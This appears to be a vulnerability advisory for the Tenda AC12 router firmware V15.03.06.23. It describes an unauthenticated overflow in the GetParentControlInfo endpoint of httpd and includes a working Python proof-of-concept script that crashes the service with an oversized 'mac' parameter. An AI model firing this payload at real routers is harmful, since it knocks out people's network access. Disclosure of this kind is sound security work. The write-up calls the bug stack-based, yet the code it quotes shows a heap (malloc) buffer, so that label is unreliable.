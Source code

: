 # Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC1206 (AC1206V1.0RTL_V15.03.06.23)
## Overview
A stack-based buffer overflow vulnerability exists in the Tenda Wi-Fi 5 Router AC12 device running firmware version AC1206V1.0RTL_V15.03.06.23. Due to the lack of restrictions on certain parameters and the absence of boundary checks in the `GetParentControlInfo` function, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through parameters in this endpoint.`/goform/GetParentControlInfo`, `initWebs`, `formDefineTendDa`

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
+ **Affected Product**: Tenda Wi-Fi 5 Router AC12 Device
+ **Affected Version**: AC1206V1.0RTL_V15.03.06.23
+ **Attack Vector**: Exploiting carefully crafted payloads to cause a stack-based buffer overflow via functions with no boundary checks and insufficient parameter restrictions
+ **Impact**:
    - Denial of Service (DoS)
+ **Affected Component**: `/goform/GetParentControlInfo`, `initWebs`, `formDefineTendDa`
+ **CVE ID**: Pending (CVE application in progress)
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)
+ **Firmware**: [https://www.tenda.com.cn/material/show/2766](https://www.tenda.com.cn/material/show/2766)

## Discovery
The vulnerability was discovered by analyzing the firmware (US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin). The following call chain exists in the `squashfs-root/bin/httpd` file:  
`main → initWebs → formDefineTendDa → GetParentControlInfo`

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE4.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE3.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE2.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/formdefinetenda.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE1.png)

The program retrieves the user input parameter "mac". The `strcpy` function in the figure below copies content from `mac_addr` to `pc_info->mac_addr` without checking the size of the target buffer. `pc_info = (parent_control_info *)malloc(0x254u);` where 0x254 is 596 bytes. If the length of `mac_addr` exceeds the buffer of `pc_info->mac_addr`, an overflow will occur.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E6%BA%A2%E5%87%BA%E7%82%B9.png)

Therefore, a carefully designed payload at the interface path `/goform/GetParentControlInfo` can cause a buffer overflow.

## Steps to Reproduce
Construct the following payload using Python:

```python
import requests

# Construct overflow payload
def create_payload():
    buffer_size = 51200
    payload = b"A" * buffer_size
    v11_value = b"\xef\xbe\xad\xde"
    payload += v11_value
    return payload

# Construct and send HTTP request
def send_payload(url, payload):
    params = {'mac': payload}
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    # Target URL
    url = "http://192.168.31.12/goform/GetParentControlInfo"
    # Create malicious payload
    payload = create_payload()
    # Send malicious request
    send_payload(url, payload)
```

Use QEMU to emulate the `httpd` extracted from `US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin` (note that this file is for the MIPS little-endian architecture, and IDA needs to be used to modify `httpd` to adapt to the emulation environment).

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/mips%E5%B0%8F%E7%AB%AF%E4%BF%AE%E6%94%B9.png)


As shown in the figure below, the emulation is successful.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/payload%26%E4%BB%BF%E7%9C%9F.png)

Use this script to trigger the stack overflow.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%BF%90%E8%A1%8C%E8%84%9A%E6%9C%AC%E8%A7%A6%E5%8F%91%E6%A0%88%E6%BA%A2%E5%87%BA.png)

## Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through parameters in this endpoint.

